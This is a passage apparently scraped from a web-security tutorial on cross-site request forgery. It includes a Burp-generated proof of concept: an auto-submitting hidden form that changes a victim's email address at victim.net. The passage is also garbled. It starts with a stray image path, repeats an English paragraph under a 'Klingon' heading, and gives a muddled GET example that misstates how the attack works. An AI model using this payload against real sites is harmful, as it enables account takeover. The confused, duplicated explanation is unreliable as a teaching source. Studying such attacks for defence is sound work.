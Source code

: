 #### Example

Consider the following example of a vulnerable Form GET request:

```html
<form action="https://example.com/profile" method="GET">
  <input type="text" name="username" value="admin">
  <input type="submit" value="Submit">
</form>
```

In this example, an attacker can construct a malicious URL like `https://example.com/profile?username=attacker`, and trick the victim into visiting it. When the victim submits the form, the request will be sent to the server with the malicious username parameter.

#### References

- [Cross-Site Request Forgery (CSRF)](https://owasp.org/www-community/attacks/csrf)
- [OWASP Testing Guide: Cross-Site Request Forgery (CSRF)](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Testing_for_Cross_Site_Request_Forgery)
```html
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
<script>history.pushState('', '', '/')</script>
<form method="GET" action="https://victim.net/email/change-email">
<input type="hidden" name="email" value="some@email.com" />
<input type="submit" value="Submit request" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```
### Form POST request

#### English

A form POST request is a type of HTTP request that is used to submit data to a server. It is commonly used in web applications to send data from a form to the server for processing. When a user submits a form, the data entered into the form fields is sent to the server in the body of the request.

To make a form POST request, the `POST` method is used in the HTML form element. The form data is then sent to the server as key-value pairs in the body of the request. The server can then process the data and perform the necessary actions based on the submitted form data.

#### Klingon

**Form POST request**

#### English

A form POST request is a type of HTTP request that is used to submit data to a server. It is commonly used in web applications to send data from a form to the server for processing. When a user submits a form, the data entered into the form fields is sent to the server in the body of the request.
